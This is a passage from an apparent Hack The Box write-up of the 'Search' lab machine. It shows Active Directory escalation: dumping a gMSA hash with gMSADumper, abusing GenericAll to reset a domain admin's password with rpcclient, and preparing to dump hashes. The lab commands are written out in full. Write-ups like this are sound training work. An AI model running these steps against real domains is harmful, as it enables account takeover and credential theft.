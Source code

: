 ![image](https://user-images.githubusercontent.com/69868171/154502460-2cecf5b3-a60c-4060-987f-ed5c669c6cc2.png)

Which we can easily abuse now.

![image](https://user-images.githubusercontent.com/69868171/154502573-9a9eb60a-cb3c-417c-af42-7d272c36744f.png)

Since sierra.frye is a member of the ITSEC@search.htb group, this user has access to all the group permissions. We can easily use [gMSADumper](https://github.com/micahvandeusen/gMSADumper) on our attacking machine to do that.

```
python3 gMSADumper.py -d search.htb -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' 
```

![image](https://user-images.githubusercontent.com/69868171/154504169-162fb442-60fd-4ceb-9f5b-af3c7888341f.png)


Now that we have the GMSA hash let check the next step.

### GenericAll

```
The user BIR-ADFS-GMSA@SEARCH.HTB has GenericAll privileges to the user TRISTAN.DAVIES@SEARCH.HTB.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.
```

![image](https://user-images.githubusercontent.com/69868171/154504625-6b5eac9a-30ab-4ff7-ab23-69e1ee741273.png)


Since we know this user has GenericAll privileges on tristan.davies, not knowing tristan’s password, I proceed to [reset his password using rpcclient](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) using the bir-adfs-gmsa account and the obtained hash.


```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]
└─$ rpcclient -U bir-adfs-gmsa$ -W search.htb search.htb  --pw-nt-hash                                                                                             1 ⨯
Enter SEARCH.HTB\bir-adfs-gmsa$'s password: 
rpcclient $> setuserinfo2 tristan.davies 23 'password'
rpcclient $> 
```

Now we have successfully change `tristan.davies` password.

```
The user TRISTAN.DAVIES@SEARCH.HTB is a member of the group DOMAIN ADMINS@SEARCH.HTB. Groups in active directory grant their members any privileges the group itself has. If a group has rights to another principal, users/computers in the group, as well as other groups inside the group inherit those permissions.
```

![image](https://user-images.githubusercontent.com/69868171/154510909-35551d15-903e-4ec1-ab88-c3b8bb84423f.png)

Since we know `tristan.davies` is a memeber of `domain admin` we can easily dump all hashes.
